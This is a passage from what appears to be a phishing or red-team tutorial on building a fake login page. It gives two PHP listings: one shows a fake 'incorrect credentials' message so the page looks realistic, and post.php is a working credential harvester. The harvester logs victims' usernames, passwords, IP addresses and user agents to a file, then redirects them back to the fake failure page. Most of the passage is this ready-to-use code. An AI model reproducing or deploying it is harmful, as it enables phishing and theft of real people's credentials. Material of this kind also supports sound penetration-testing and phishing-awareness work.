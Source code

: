 Now this is where we start getting sneaky with our inclusion of PHP. Our landing page will only contain the following snippet of PHP that will look to see if the url parameter `login_failed’ was included when the page was loaded and if so, display the text for incorrect credentials.

```
<?php
        if (isset($_GET['login_failed'])) {
            echo '<div class="error-message">Incorrect username or password.</div>';
        }
?>
```
> Listing - PHP code to display incorrect username or password
While that code is more so added here to keep our page appear more realistic, the devious activity occurs within our post.php page which is displayed in the listing below.
```
<?php
// Sleep for two seconds to simulate validation
sleep(2);

// Capture client info
$ip = 'Remote IP: ' . $_SERVER['REMOTE_ADDR'];
if (isset($_SERVER['HTTP_X_FORWARDED_FOR']) && filter_var($_SERVER['HTTP_X_FORWARDED_FOR'], FILTER_VALIDATE_IP)) {
    $ip = 'Proxied IP: ' . $_SERVER['HTTP_X_FORWARDED_FOR'];
} elseif (isset($_SERVER['HTTP_CLIENT_IP']) && filter_var($_SERVER['HTTP_CLIENT_IP'], FILTER_VALIDATE_IP)) {
    $ip = 'Client IP: ' . $_SERVER['HTTP_CLIENT_IP'];
}

// Capture form data
$user_agent = substr($_SERVER['HTTP_USER_AGENT'], 0, 500);
$username = substr($_POST["username"] ?? '', 0, 100);
$password = substr($_POST["password"] ?? '', 0, 100);

// Check if both username and password are not empty
if (!empty($username) || !empty($password)) {
    // Prepare the log entry
    $timestamp = date('Y-m-d H:i:s');
    $entry = "$timestamp | Username: $username | Password: $password | $ip | Agent: $user_agent\r\n";

    // Append to the entry to the log file
    $file = '/var/www/logons.txt';
    file_put_contents($file, $entry, FILE_APPEND);
}

// Redirect the client back to the landing page
header("Location: http://192.168.0.7/devuseonly/index.php?login_failed");
exit;
?>
```
> Listing - Contents of our post.php file
